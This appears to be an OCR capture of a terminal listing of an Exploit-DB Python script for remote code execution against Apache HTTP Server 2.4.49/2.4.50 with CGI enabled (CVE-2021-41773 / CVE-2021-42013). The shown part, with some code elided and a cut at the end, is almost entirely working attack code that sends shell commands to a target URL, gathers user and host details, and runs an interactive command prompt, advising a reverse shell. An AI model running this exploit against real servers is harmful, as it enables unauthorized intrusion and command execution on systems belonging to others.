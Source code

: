 `cat /usr/share/exploitdb/exploits/multiple/webapps/50512.py`:
```python
# Exploit Title: Apache HTTP Server 2.4.50 - Remote Code Execution (RCE) (3)
# Date: 11/11/2021
# Exploit Author: Valentin Lobstein
# Vendor Homepage: https://apache.org/
# Version: Apache 2.4.49/2.4.50 (CGI enabled)
# Tested on: Debian GNU/Linux
# CVE : CVE-2021-41773 / CVE-2021-42013 ←
# Credits : Lucas Schnell

[...]

if len(sys.argv) < 2 :
    print( 'Use: python3 file.py ip:port ' )
    sys.exit()

def end():
    print("\t\033[1;91m[!] Bye bye !")
    time.sleep(0.5)
    sys.exit(1)

def commands(url,command,session):
    directory = mute_command(url,'pwd')
    user = mute_command(url,'whoami')
    hostname = mute_command(url,'hostname')
    advise = print(Fore.YELLOW + 'Reverse shell is advised (This isn\'t an interactive shell)')
    command = input(f"{Fore.RED}╭─{Fore.GREEN + user}@{hostname}: {Fore.BLUE + directory}\n{Fore.RED}╰─{Fore.YELLOW}$ {Style.RESET_ALL}")
    command = f"echo; {command};"
    req = requests.Request('POST', url=url, data=command)
    prepare = req.prepare()
    prepare.url = url
    response = session.send(prepare, timeout=5)
    output = response.text
    print(output)
    if 'clear' in command:
        os.system('/usr/bin/clear')
        print(header)
    if 'exit' in command:
        end()

def mute_command(url,command):
    session = requests.Session()
    req = requests.Request('POST', url=url, data=f"echo; {command}")
    prepare = req.prepare()
    prepare.url = url
    response = session.send(prepare, timeout=5)
    return response.text.strip()


def exploitRCE(payload):
    s = requests.Session()
    try:
        host = sys.argv[1]
        if 'http' not in host:
            url = 'http://'+ host + payload
        else:
            url = host + payload
        session = requests.Session()
        command = "echo; id"
        req = requests.Request('POST', url=url, data=command)
        prepare = req.prepare()
        prepare.url = url
```